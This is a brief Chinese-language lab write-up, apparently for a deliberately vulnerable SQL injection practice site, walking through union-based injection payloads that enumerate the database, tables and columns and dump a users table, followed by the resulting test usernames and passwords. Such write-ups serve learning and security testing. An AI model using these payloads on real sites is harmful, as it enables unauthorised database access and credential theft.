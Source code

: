 #### lab1

简单的联合注入？

payload:

测显示位：

```sql
1'union select 1,2,3%23
```

爆数据库：

```sql
-1'union select 1,database(),3%23
```

爆表名：

```sql
-1'union select 1,2,group_concat(table_name)from(information_schema.tables)where table_schema=database()%23
```

爆字段：

```sql
-1'/**/union select 1,2,group_concat(column_name)from(information_schema.columns)where/**/table_name='users'%23
```

爆用户名和密码：

```sql
-1'/**/union select 1,group_concat(username),group_concat(password) from users %23
```

```
username:
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password:
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

